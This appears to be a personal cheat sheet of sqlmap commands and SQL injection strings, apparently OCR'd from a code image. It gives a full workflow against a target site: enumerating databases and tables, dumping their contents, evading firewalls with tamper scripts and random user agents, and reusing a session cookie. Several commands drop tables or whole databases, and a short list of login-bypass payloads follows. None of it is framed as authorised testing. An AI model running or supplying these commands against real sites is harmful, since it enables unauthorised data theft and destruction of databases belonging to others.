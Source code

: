 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D databasename -T tablename
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D databasename -T tablename
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql
8. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent
9. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs
10. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 --tables
11. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 -T coba --dump
12. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP TABLE nama_tabel"
13. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP DATABASE nama_database"
14. python3 sqlmap.py -r request.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs --level=5 --risk=3 --threads=5 --hex --data="id=2618 AND 2323=2323" --dbms=Oracle

// others
python sqlmap.py -u "https://target.com/?id=1" -t 10 --tamper="between,randomcase,space2comment" --dbs --random-agent --risk=3 --level=5

// set parameter target
sqlmap -r ./target.txt --tamper="between,randomcase,space2comment" --random-agent -p username,password


# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/

